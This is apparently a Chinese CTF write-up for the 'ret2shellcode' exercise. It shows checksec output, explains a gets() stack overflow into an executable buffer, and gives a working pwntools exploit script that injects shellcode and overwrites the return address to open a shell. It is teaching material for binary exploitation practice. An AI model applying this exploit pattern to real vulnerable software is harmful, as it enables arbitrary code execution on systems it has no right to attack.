





# ret2shellcode


# 查看文件保护

```
[root@localhost pwn]# checksec ret2shellcode
[*] '/root/pwn/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
[root@localhost pwn]# checkfile ret2shellcode
Error: No option selected. Please select an option.

[root@localhost pwn]# checkfile --file=ret2shellcode
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   79 Symbols	  No	0		3		ret2shellcode
```




# gef vmmap查看可读可写可执行区域




## ida查看C代码




## 思路

- 使用gets函数，存在栈溢出漏洞，可以覆盖返回地址。
- 会将输入的内容复制到buf2，而buf2可读可写可执行。
- gets输入的内容，先给shellcode，在填充剩余的内容，最后覆盖返回地址为buf2首地址。


## 查看汇编计算地址




## 总结

buf2首地址：0x804a080

s地址到返回地址字节数：112字节

覆盖内容为：shellcode，剩余部分到返回地址用重复'A'填充，buf2首地址


## 构造payload

```python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
target_addr = 0x804a080

distance = 112

payload = shellcode + b'A' * (distance - len(shellcode)) + p32(target_addr)

sh.sendline(payload)
sh.interactive()
```


## 效果



